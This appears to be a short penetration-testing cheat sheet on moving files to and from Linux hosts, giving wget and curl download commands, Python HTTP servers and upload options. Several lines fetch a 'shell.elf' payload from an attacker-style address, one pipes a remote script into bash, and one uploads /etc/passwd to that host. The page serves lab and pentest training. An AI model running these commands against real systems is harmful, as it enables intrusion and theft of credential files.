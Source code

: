 ```yaml
---
layout: post
title: Linux File Transfer Cheatsheet 
date: 2025-04-10 16:14 +0300
categories: [Linux]
tags: [file transfer, pentest, linux]
---
```


## Basic HTTP Transfers

### Wget
```bash
# Download file
wget http://10.10.10.1:8000/shell.elf

# Download with custom output name
wget http://10.10.10.1:8000/shell.elf -O /tmp/safe.bin

# Download in background
wget -bq http://10.10.10.1:8000/shell.elf

# Download with authentication
wget --http-user=username --http-password=password http://10.10.10.1:8000/shell.elf
```

### cURL
```bash
# Download file
curl http://10.10.10.1:8000/shell.elf -o shell.elf

# Silent download
curl -s http://10.10.10.1:8000/shell.elf > shell.elf

# Download and pipe to bash
curl http://10.10.10.1:8000/shell.sh | bash

# Upload file with PUT
curl -T /etc/passwd http://10.10.10.1:8000/passwd
```

## Quick HTTP Servers

### Python
```bash
# Python 2 HTTP server
python -m SimpleHTTPServer 8000

# Python 3 HTTP server
python3 -m http.server 8000

# Bind to specific interface
python3 -m http.server 8000 --bind 192.168.1.2
```
